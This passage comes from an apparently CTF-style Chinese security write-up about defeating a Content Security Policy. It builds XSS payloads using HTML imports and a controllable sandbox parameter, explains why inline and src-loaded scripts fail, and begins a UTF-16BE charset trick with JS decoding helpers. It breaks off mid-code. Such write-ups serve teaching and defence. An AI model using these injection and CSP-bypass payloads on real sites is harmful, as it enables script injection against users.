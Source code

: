 其中`sandbox?html=`之后的内容是我们可控的，那是不是可以构造这样一个payload呢

```html
<!--
<link rel="import"><link rel="import" href="/sandbox?html=<script>alert(1)</script>">
-->
<link rel="import"><link rel="import" href="/sandbox?html=%3cscript%3ealert(1)%3c%2fscript%3e">
```

很遗憾，虽然我们成功的插入了`script`元素，但是由于CSP策略限制，`inline`形式的脚本是无法执行的

![inline_script.png](http://lc-cf2bfs1v.cn-n1.lcfile.com/566a403f55f1b79e4f2a.png)

不过我们稍微修改一下payload，以`src`形式加载一个可控脚本进来即可绕过，无非是多请求一次而已，如下

```html
<!--
<link rel="import"><link rel="import" href="/sandbox?html=<script src='/sandbox?html=<script>alert(1)</script>'></script>">
-->
<link rel="import"><link rel="import" href="/sandbox?html=%3cscript%20src%3d%27%2fsandbox%3fhtml%3d%3cscript%3ealert(1)%3c%2fscript%3e%27%3e%3c%2fscript%3e">
```

再来看看结果

![invalid_js.png](http://lc-cf2bfs1v.cn-n1.lcfile.com/f16c4efe55c7fc9daafc.png)

依然不行，以`src`形式加载脚本的话，响应并非一个有效的脚本文件，前面被强行插入了`<!doctype HTML>`等代码片段，报了语法错误

## 0x04 神奇的编码

这样一来似乎所有可行的方式都被pass掉了，下面该如何入手呢？别忘了刚才提到的诡异的`utf-16be`，`script`还有一个经常被大家忽视的属性`charset`，是不是可以在`charset`上做做文章呢？这里稍微在网上查查就可以找到一些资料：

- [JSON hijacking minichallenge](http://vwzq.net/challenge/jsonhijack.html)
- [UTF-16によるContent Security Policyの迂回](http://masatokinugawa.l0.cm/2012/05/utf-16content-security-policy.html)

需要满足的条件是目标内容在http响应头中没有指定编码，这样我们就可以在`script`的`charset`中指定一个编码，并让目标内容按我们指定的编码进行解析，把原有的不受我们控制的内容“吃掉”，从而达到绕过的目的。

那么为什么选用`utf-16be`编码呢？我们写个脚本观察分别用`utf-16be`和`utf-16le`解析得到的结果

```js
function thex(charCode){
	r = charCode.toString(16);
	if(r.length == 1)
		return '0'+r
	return r
}
function utf16be(HTMLString){
    var line = ''
    for(var i=0;i<HTMLString.length/2;i++){
    	raw = HTMLString.charAt(2*i) + HTMLString.charAt(2*i+1)
    	out = '\\u'+ thex(HTMLString.charCodeAt(2*i)) + thex(HTMLString.charCodeAt(2*i+1))
    	line += raw.replace('\n','\\n') + '\t' + out + '\t' + unescape(out.replace('\\u','%u')) + '\n'
    }
    return line
}
function utf16le(HTMLString){
    var line = ''
    for(var i=0;i<HTMLString.length/2;i++){
    	raw = HTMLString.charAt(2*i) + HTMLString.charAt(2*i+1)
    	out = '\\u'+ thex(HTMLString.charCodeAt(2*i+1)) + thex(HTMLString.charCodeAt(2*i))
    	line += raw.replace('\n','\\n') + '\t' + out + '\t' + unescape(out.replace('\\u','%u')) + '\n'
    }
```